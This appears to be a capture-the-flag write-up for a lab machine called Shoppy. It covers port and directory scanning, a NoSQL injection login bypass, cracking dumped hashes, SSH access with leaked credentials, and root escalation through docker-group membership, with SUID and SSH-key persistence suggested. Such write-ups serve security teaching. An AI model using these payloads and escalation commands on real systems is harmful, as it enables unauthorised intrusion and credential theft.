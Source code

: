 # Shoppy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:12 EDT
Nmap scan report for 10.129.227.233
Host is up (0.0063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

We have to add `shoppy.htb` to our `/etc/hosts` file.&#x20;

### HTTP

Port 80 reveals a count down to the release of a website.

<figure><img src="../../../.gitbook/assets/image (559).png" alt=""><figcaption></figcaption></figure>

Doing a `gobuster` scan reveals a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shoppy.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 14:14:56 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/js                   (Status: 301) [Size: 171] [--> /js/]
```

There's a login page.&#x20;

<figure><img src="../../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

I tested SQL Injection, but it didn't seem to work. We can still fuzz subdomains using `wfuzz`, and I did find one:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.shoppy.htb' --hw=11 -u http://shoppy.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

### Mattermost

The sub-domain brought me to another login page.

<figure><img src="../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

Directory scanning and searching for public exploits returned nothing useful, so let's come back to this later.&#x20;

### NoSQL Injection

On the main `shoppy.htb` website, I tried NoSQL Injection using both regular HTTP parameters and JSON. I was able to bypass it using this:

```
username=admin'||'1=1&password=pass
```

<figure><img src="../../../.gitbook/assets/image (602).png" alt=""><figcaption></figcaption></figure>

With this, we can login to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

There was a Search for Users function, and since this application is already vulnerable to NoSQL Injection, we can use a similar payload to see what we get:

```
'||'1=1
```

Then we can download the export to see some credentials:

<figure><img src="../../../.gitbook/assets/image (616).png" alt=""><figcaption></figcaption></figure>

The hash for `josh` cracks.

<figure><img src="../../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

Using that, we can login to Mattermost and see that there are credentials on the screen!

<figure><img src="../../../.gitbook/assets/image (604).png" alt=""><figcaption></figcaption></figure>

We can use this to `ssh` in as the user.

<figure><img src="../../../.gitbook/assets/image (608).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Manager RE

As this user, we can run a command using `sudo` as `deploy`.

```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

When run, it prompts us for a password, and I tried to reuse both of the passwords we found earlier but it doesn't work.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: remembermethisway
Access denied! This incident will be reported !
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

We can transfer this back to my machine and decompile it with `ghidra`. When opened, we can see the master password it is compared to.

<figure><img src="../../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>

We can use this to get the real password:

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

We can then `su` to `deploy`.&#x20;

### Docker Group

As this new user, we are part of the `docker` group.

```
deploy@shoppy:/tmp$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

We can use this to create a new container that has access to the filesystem of the machine, and make ourselves `root` of the container. This effectively gives us `root` access over the files of the main machine too.&#x20;

```
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   9 months ago   5.53MB
deploy@shoppy:/tmp$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

With this, we can go to `/mnt/root/root.txt` to read the root flag. We can also drop our public SSH key into the `authorized_keys` file or make `/bin/bash` an SUID binary.&#x20;

<figure><img src="../../../.gitbook/assets/image (567).png" alt=""><figcaption></figcaption></figure>
